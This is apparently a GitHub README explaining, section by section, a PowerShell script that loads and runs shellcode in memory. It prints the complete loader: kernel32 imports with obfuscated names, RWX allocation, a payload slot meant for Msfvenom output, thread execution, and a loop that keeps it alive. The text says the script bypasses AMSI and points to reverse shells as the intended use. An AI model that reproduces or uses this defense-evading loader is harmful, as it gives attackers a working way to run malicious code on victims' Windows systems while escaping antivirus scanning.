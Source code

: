 # Powershell_Rev_Scripts
## Explanation
# 1.
```powershell
$pythonmods = @"
using System;
using System.Runtime.InteropServices;
...
```
A variable called pythonmods is created and is a string that holds multiple lines of code emphasized by the '@"' or here strings. It includes the System and System.Runtime.InteropServices namespace.

# 2.
```powershell
public class K2 {
    [DllImport("kernel32", EntryPoint="Get" + "Proc" + "Address")]
    public static extern IntPtr gpa(IntPtr hModule, string procName);
    [DllImport("kernel32", EntryPoint="Load" + "Library")]
    public static extern IntPtr ll(string name);
    [DllImport("kernel32", EntryPoint="Virtual" + "Protect")]
    public static extern bool vp(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```
This part of the code defines a class named K2 which calls Windows API functions using DllImport. 
The first import is "GetProcAddress" obsuscated by splitting into "Get" + "Proc" + "Address". 
- This import is used to get the address
The second import is "LoadLibrary" obsuscated by splitting into "Load" + "Library".
- This import is to load a dynamic link library also known as a DLL into the memory
The third import is "VirtualProtect" obsucated by splitting into "Virtual" + "Protect".
- This import is used to modify a region of memory's protection ie making it writable, executable, etc.

# 3.
```powershell
[DllImport("kernel32", SetLastError = true)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out IntPtr lpThreadId
    );
```
This method creates a method called CreateThread which executes code at the address specified by lpStartAddress

# 4.
```powershell
[DllImport("kernel32", EntryPoint="Virtual" + "Alloc")]
    public static extern IntPtr va(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

    public static void Copy(Byte[] source, Int32 startIndex, IntPtr destination, Int32 length) {
        Marshal.Copy(source, startIndex, destination, length);
    }
}
"@
```
The import is "VirtualAlloc" obsuscated by splitting into "Virtual" + "Alloc".
- This import is used to allocate memory for our shellcode
The helper function Copy is used to copy bytes to a specific memory location

# 5.
```powershell
Add-Type -TypeDefinition $pythonmods -Language CSharp
```
This tells PowerShell add the type definition $pythonmods specify the code as C# and compile it. 

# 6.
```powershell
$pl = [Byte[]] (
    # Enter Payload Here
)
```
This part is where to add the payload such as Msfvenom

# 7.
```powershell
$plSize = $pl.Length

$mem = [K2]::va([IntPtr]::Zero, [UIntPtr]::new($plSize), 0x3000, 0x40)

[K2]::Copy($pl, 0, $mem, $plSize)
```
First calculated the size of the payload in bytes and store as $plSize
Next allocate memory for the payload using the VirtualAlloc function with the va method. Add the allocation type 0x3000 which means to have the memory region both reserved and comitted.
- 0x1000 (MEM_COMMIT)
    - Flag used to allocate physical storage
- 0x2000 (MEM_RESERVE)
    - Flag that reserves memory space and saves it for future use
Add the protection flag 0x40 which indicates PAGE_EXECUTE_READWRITE meaning the memory can be executed, read, and written to.
Next copy the payload into the allocated memory.

# 8.
```powershell
$oldProtect = 0
$protectionResult = [K2]::vp($mem, [UIntPtr]::new($plSize), 0x40, [ref]$oldProtect)
```
Changes the allocated memory protection to 0x40 which allows the payload to execute as soon as it's copied into memory. The vp method is called to ensure the memory is executable.

# 9.
```powershell
$threadId = [IntPtr]::Zero
$hThread = [K2]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [ref]$threadId)
```
Creates a thread that executes at the allocated memory of which the copied payload resides. 

# 10.
```powershell
while ($true) {
    Start-Sleep -Seconds 60
}
```
Infinite loop that waits 60 seconds between each iteration of the loop

# Conclusion
This script bypasses Windows AMSI and executes shellcode using PowerShell. Even if the PowerShell window is given the command ctr-c it will continue to run in the background. 
- Teminating the Process
    - Terminate the thread or PowerShell itself using TaskManager.
    - After the shell code completely finishes it should cause the thread to terminate
        - Ex. Reverse Shell after the attacker terminates the session the thread should also be terminated